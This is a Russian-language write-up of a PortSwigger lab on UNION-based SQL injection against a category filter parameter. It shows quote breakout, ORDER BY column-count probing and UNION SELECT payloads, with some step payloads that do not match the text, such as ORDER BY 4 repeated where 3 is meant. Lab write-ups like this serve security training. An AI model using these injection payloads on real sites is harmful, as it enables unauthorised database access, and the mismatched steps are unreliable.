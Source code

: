```yaml
---
title: "SQL injection UNION attack, determining the number of columns returned by the query"
date: 2025-06-19
tags: [sql, writeup]
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns)

## Scope

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. Для решения необходимо выполнить атаку, которая должна вывести дополнительную строку с `NULL` значениями.

## Solution

Первым делом нужно найти фильтр категорий, который описан в задании. Это сделать достаточно легко, так как он находится на главной странице, и значения для фильтрации передаются через параметры `GET`-запроса.

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/1.png){: height="200" .align-center}

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories
```


Теперь нужно найти символ обрамления для параметра. Предположим, что запрос выглядит следующим образом:

```sql
SELECT name, price FROM table WHERE category = 'Accessories'
```

Предположу, что для обрамления используется символ кавычки `'`, тогда я не должен получить никаких значений при следующем запросе:

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories' and false-- -
```

Собственно это и произошло:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/2.png){: height="200" .align-center}

Запрос к БД выглядел следующим образом:

```sql
SELECT name, price FROM table WHERE category = 'Accessories' and false -- -'
```

<details>
  <summary>Подробнее</summary>
  
  `-- -` - это комментарий в SQL, с помощью него я убрал всю последующую часть запроса. В данном случае это лишняя кавычка, которая ломала бы запрос.
</details>


Обрамления я нашел - это одинарные кавычки `'`. Теперь нужно найти количество элементов в запросе. Это можно сделать с помощью `ORDER BY`. Этот оператор используется для сортировки результата по номеру стоблца в БД. Если нужного столбца нет, то мы получим ошибку. Подставлю значение 100.

```
https://0a1600ed036880cd8c118c7100de00ed.web-security-academy.net/filter?category=Accessories%27%20ORDER%20BY%20100--%20-
```

Ошибка)

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/3.png){: height="200" .align-center}

Далее можно использовать бинарный поиск для нахождения нужного значения. То есть передать 50. В случае ошибки взять 25. Если же успех, то 75. И так далее. Можно так же ткнуть на обум. На сайте мы видим 3 колонки. Звучит логично, что они все заполняются из БД. Подставлю значение 4 (для сокращения буду писать только часть пейлоада).

```
Accessories' ORDER BY 4-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/4.png){: height="200" .align-center}

Подставлю 3:

```
Accessories' ORDER BY 4-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/5.png){: height="200" .align-center}

Супер. ~~Сбер теперь купер~~.

Я нашел количество столбцов. Попробую добавить `UNION` к своему пейлоаду, чтобы получить данные из БД.
  
```
Accessories' UNION SELECT 1,2,3-- -
```

Ошибка(

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/6.png){: height="200" .align-center}

Оберну значения в кавычки.

```
Accessories' and false UNION SELECT 1,2,3-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-determining-the-number-of-columns-returned-by-the-query/7.png){: height="200" .align-center}

Я вывел переданные значения в таблицу на сайте, что и требовалось для прохождения лабы.
